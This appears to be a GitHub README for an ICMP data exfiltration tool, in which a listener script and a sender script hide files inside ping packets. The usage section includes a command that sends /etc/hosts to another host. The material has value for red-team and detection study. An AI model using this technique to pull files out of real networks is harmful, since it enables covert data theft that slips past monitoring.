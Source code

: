 # ICMP-Data-Exfiltration

This program is used to send data over the network within "ICMP Packets", with the help of the "PING" command.
we can send any type of file over the network between two hosts with the help of this script.


## Examples of How To Use
The program works with two files.

First one "icmp_exfiltration.py", this file we will use as a receiver by running this file we will automatically
start listening for any "ICMP packets" that are coming towards our host machine, once we start receiving packets
this script will automatically decode the message and print it to the display.

Second file "icmp_sendData.py", with the help of this script we can send any type of file we want to another host 
where it is listening for our communication, we just need to provide the destination "IP-Address" and "FILE NAME" 
to the script, and it will automatically convert our data into "HEXADECIMAL" and send it to its destination.

### Help Menu
#### icmp_exfiltration.py
```bash
❯ sudo python3 icmp_exfiltration.py

[!] Usage icmp_exfiltration.py <Interface-Name>                               
```

#### icmp_sendData.py
```bash
❯ sudo python3 icmp_sendData.py

[!] Usage icmp_sendData.py <IP-Address> <File-Name>                            
```

### Usage
#### icmp_exfiltration.py
```bash
❯ sudo python3 icmp_exfiltration.py wlan0

[*] Listening for any incoming connections...

127.0.0.1       localhost
127.0.1.1       Gurpreet06                        
```
First we run the "icmp_exfiltration.py" file specifying which interface we want to listen on.

#### icmp_sendData.py
```bash
❯ python3 icmp_sendData.py 172.16.223.1 /etc/hosts

[+] Trying to send file...

[+] File sent successfully.                        
```
Then from another host we will run the "icmp_sendData.py" and the destination "IP-Address" and "FILE NAME"
and it will automatically send  the file to another host terminal.

